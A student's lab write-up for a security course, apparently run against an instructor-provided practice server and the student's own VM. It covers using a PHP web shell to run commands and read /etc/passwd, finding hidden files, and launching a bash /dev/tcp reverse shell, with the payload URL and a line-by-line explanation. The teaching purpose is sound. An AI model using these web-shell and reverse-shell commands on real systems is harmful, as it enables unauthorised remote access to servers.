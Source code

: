 # Reverse shell assignment

Author: James Commons

Date: 10/30/2024

## Part 1: installing a PHP web shell

a. I used the PHP web shell provided on the assignment page. The webshell is written such that
it will input a URL paramater and run it as a command locally on the server the file
is installed on. This means that the only thing I need to do to get the server to run a command
is give the command I want in the URL. For `whoami`, I typed 
`http://danger.jeffondich.com/uploadedimages/commonsj-webshell.php?command=whoami` into my browser's
search bar, and it responded with the plain text `www-data`.

b. The `<pre>` tags are necessary for the browser to display the command output as plain text rather
than formatted text. If the tags were not there, line feeds would be ignored, the font would not be
monospace, and in general, it would be hard to interpret text meant to be read from a terminal.

## Part 2: looking around

a. `/var/www/danger.jeffondich.com/uploadedimages`

b. 
The full list of users is given in the file /etc/passwd, which I 
was able to list out by running `cat \etc\passwd`

root
daemon
bin
sys
sync
games
man
lp
mail
news
uucp
proxy
www-data
backup
list
irc
gnats
nobody
systemd-network
systemd-resolve
messagebus
systemd-timesync
syslog
_apt
tss
uuidd
tcpdump
usbmux
sshd
pollinate
landscape
fwupd-refresh
jeff
postgres
bullwinkle

c. Any user can read from `/etc/passwd`, but only root can modify the file. You can
verify this by listing the permissions in the `/etc/` directory. The file contains 
a list of every user and some basic preferences like the location of the home directory
and the path to the user's preferred shell.

d. `/etc/shadow` can only by read by root, and it contains hashed and salted passwords
for each user. It also contains information about things like password expirations dates 
([source](https://www.cyberciti.biz/faq/understanding-etcshadow-file/)).

e. 
```
/   \          /   \
\_   \        /  __/
 _\   \      /  /__
 \___  \____/   __/
     \_       _/
       | @ @  \_
       |
     _/     /\
    /o)  (o/\ \_
    \_____/ /
      \____/
```
This moose was found in a file in the /home/jeff/ directory. I also found a file called 
youfoundme.txt that you can read the contents of.

I found this frog at /var/www/danger.jeffondich.com/secrets/kindasecret.txt
```
 _   _
           (.)_(.)
        _ (   _   ) _
       / \/`-----'\/ \
     __\ ( (     ) ) /__
     )   /\ \._./ /\   (
      )_/ /|\   /|\ \_(
```

I found these birds at /var/www/danger.jeffondich.com/youwontfindthiswithgobuster/secret.txt
```
 ___     ___
  (o o)   (o o)
 (  V  ) (  V  ) 
/--m-m- /--m-m-
```

"Aw, a little period couldn't hide me? So sad." Yup (found at /opt/.even-more-secrets.txt)

Finally, I found a PHP file called my_ip.php, which when I visit it at 
`http://danger.jeffondich.com/my_ip.php`, gives me the IP address I used to contact the 
server. In this case, it gave me one of Carleton's gateway IP addresses.

## Part 3: setup for part 4

Completed.

## Part 4: launching a reverse shell

a. To find the IP address of my target (my Kali VM), I ran the command `ifconfig`. It 
told be that the IP address is `192.168.64.8`. If I were an attacker without access
to the machine yet, I would still presumably know the IP address of the target, most likely
because it is associated with some domain that I can look up. Since this is a webshell, 
the target is likely a webserver, meaning that the IP address is not meant to be kept secret.

b. My computer has the IP address of `192.168.64.1` as far as my Kali VM is concerned. However,
on Carleton's network, my IP address is `10.133.23.56` at the moment. The reason for the 
discrepancy is that my computer is acting as a sort of gateway to Carleton's larger network.
My computer is hosting a local network that my VM is connected to. My computer forwards
requests made by my VM to one of Carleton's gateway devices. For the reverse shell, I should
use `192.168.64.1`, since the other IP address is not known to my VM.

c. I picked the port 5678.

d. This is the template URL given on the assignement page: 
`http://KALI_IP/YOUR_WEBSHELL.php?command=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/YOUR_HOST_OS_IP/YOUR_CHOSEN_PORT%200%3E%261%22`.
I will modify it to be 
`http://192.168.64.8/webshell.php?command=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/192.168.64.1/5678%200%3E%261%22`

e. Yes! It all works. To find out information about the system I have just hacked into,
I can run `uname -a` in my reverse shell (netcat input). When I do this, I get 
`Linux jello 6.6.15-arm64 #1 SMP Kali 6.6.15-2kali1 (2024-05-17) aarch64 GNU/Linux`, which
confirms that the target machine in running Kali linux compiled for arm64 machines.

f. Those codes are URL escape sequences. For example, I know off the top of my head that `%20` is 
the code for the space character. Using a URL decoder, I can rewrite the URL used in part d. as
follows: `http://192.168.64.8/webshell.php?command=bash -c "bash -i >& /dev/tcp/192.168.64.1/5678 0>&1"`

g. To understand how this reverse shell works, we need to understand the command I ran on the target
machine using the webshell. The first command is `bash -c`, followed by an argument. This just invokes
the bash shell to run the command given in the argument. It is a way of enforcing that our command is
actually interpreted as a bash command. It is necessary because we are ultimately trying to run this
code through a PHP script, and I assume this is the workaround you have to do get bash to run. I tried
it without this first command (just running the stuff in quotes), and it didn't work.

The next thing that runs is the command encased in quotes: `bash -i >& /dev/tcp/192.168.64.1/5678 0>&1`.
This invokes the bash shell again, this time with the option `-i`, which sets everything up for an 
interactive session. Finally, the real magic happens when we redirect stdout and stderr to the "file"
`/dev/tcp/192.168.64.1/5678`. What this actually does is it opens a tcp connection to `192.168.64.1` on
port `5678`. The final piece of this command is redirecting stdin to stdout. This lets us input commands
into the reverse shell from the attacking machine.
